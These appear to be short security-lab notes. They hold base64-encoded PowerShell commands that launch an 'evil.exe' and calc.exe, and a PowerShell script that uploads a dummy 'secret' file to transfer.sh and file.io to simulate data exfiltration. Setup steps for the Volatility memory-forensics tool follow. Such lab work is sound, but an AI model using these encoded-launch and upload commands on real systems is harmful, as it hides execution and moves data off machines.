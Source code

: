 powershell -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACcAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABlAHYAaQBsAC4AZQB4AGUAJwA=
powershell -enc UwB0AGEAcgB0AC0AUABSAE8AQwBFAFMAUwAgACcAYwBhAGwAYwAuAGUAeABlACcA$$

$path = "$env:TEMP\important.txt"

Set-Content -Path $path -Value "Top secret info from Zakariae's lab"

Invoke-RestMethod -Uri "https://transfer.sh/important.txt" -Method Put -InFile $path -OutFile "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"




$response = Invoke-RestMethod -Uri "https://file.io" -Method Post -InFile $path -ContentType "multipart/form-data"

$response.link | Out-File "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"



_______
volqtility

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

pip3 install -r requirements.txt

python3 vol.py -h

